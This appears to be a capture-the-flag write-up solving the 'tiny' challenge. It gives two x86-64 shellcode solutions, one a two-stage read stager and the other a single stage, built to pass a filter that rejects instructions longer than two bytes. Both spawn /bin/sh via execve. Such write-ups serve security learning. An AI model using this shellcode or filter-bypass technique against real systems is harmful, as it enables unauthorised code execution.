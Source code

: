 # tiny

tiny reads from stdin and executes what it reads as shellcode.
The problem is that it uses libcapstone to disassemble the shellcode and it checks whether the shellcode contains instructions with more than 2 bytes. If it does, it exits withou executing our shellcode.

## First Solution

This is the first solution I came up with. It's not the best one, but it works. Basically, it is multistage exploit. The first stage is a shellcode that reads the second stage from stdin. The second stage is the actual shellcode that spawns a shell.

### First Stage

```asm
xor edi, edi
push rdx
pop rsi
xor edx, edx
push 100
pop dx
syscall
```

RDI: is set to 0, so the read syscall will read from stdin.
RSI: it must be set to the address where the shellcode will be written. The trick to have instructions with less than 2 bytes is to use POP/PUSH instead of MOV.
RDX: is set to 100, so the read syscall will read 100 bytes. The same trick used for RSI is used here.
RAX: it's not changed because it already contains 0 (the read syscall number).

### Second Stage

```asm
mov rdi, rsi
add rdi, 0x22
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

RDI: it must be set to the address of the string "/bin/sh". 0x22 is the offset of the string from the address where the shellcode is written.
RAX: it's set to 0x3b (the execve syscall number).
RSI: it's set to 0.
RDX: it's set to 0.

Note: Why 0x22? Because the first stage is 12 byte long. The second one 22. Then 34=0x22. We need to consider the first stage because the RIP at the end of the first stage will point right after the first stage and we are writing at the beginning of the first stage. In fact, we need to put also 12 NOPs at the beginning of the second stage.

## Second Solution

This is the second solution I came up with. It's better than the first one because it's a single stage exploit. The shellcode doesn't contain instructions with more than 2 bytes.

```asm
push rdx
pop rax
add al, 0x10
push rax
pop rdi
xor eax, eax
mov al, 0x3b
xor edx, edx
xor esi, esi
syscall
.string "/bin/sh"
```asm

RAX: it's set to RDX+0x10. RDX contains the address of the shellcode, so RAX will contain the address of the string "/bin/sh" and 0x10 is the offset of the string from the address of the shellcode in fact the shellcode is 16 byte long.
RDI: it's set to RAX. We are using RAX here to temporarily store the address of the string "/bin/sh" because for some reason the ``add al, 0x10`` it's just 2 bytes long.
RAX: it's set to 0x3b (the execve syscall number).
RSI: it's set to 0.
RDX: it's set to 0.

